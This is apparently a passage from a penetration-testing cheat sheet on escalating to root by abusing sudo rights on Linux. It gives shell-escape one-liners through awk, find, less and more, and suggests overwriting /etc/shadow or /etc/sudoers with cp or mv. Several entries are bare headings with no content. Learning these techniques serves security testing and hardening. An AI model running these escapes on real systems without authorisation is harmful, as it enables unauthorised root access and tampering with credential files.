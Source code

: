 #### Abusing sudo-rights <a id="abusing-sudo-rights"></a>

If you have a limited shell that has access to some programs using `sudo` you might be able to escalate your privileges with. Any program that can write or overwrite can be used. For example, if you have sudo-rights to `cp` you can overwrite `/etc/shadow` or `/etc/sudoers` with your own malicious file.

`awk`

```text
awk 'BEGIN {system("/bin/bash")}'
```

`bash`

`cp`  
Copy and overwrite /etc/shadow

`find`

```text
sudo find / -exec bash -i \;

find / -exec /usr/bin/awk 'BEGIN {system("/bin/bash")}' ;
```

`ht`

The text/binary-editor HT.

`less`

From less you can go into vi, and then into a shell.

```text
sudo less /etc/shadow
v
:shell
```

`more`

You need to run more on a file that is bigger than your screen.

```text
sudo more /home/pelle/myfile
!/bin/bash
```

`mv`

Overwrite `/etc/shadow` or `/etc/sudoers`

`man`

`nano`

`nc`

`nmap`

`python/perl/ruby/lua/etc`
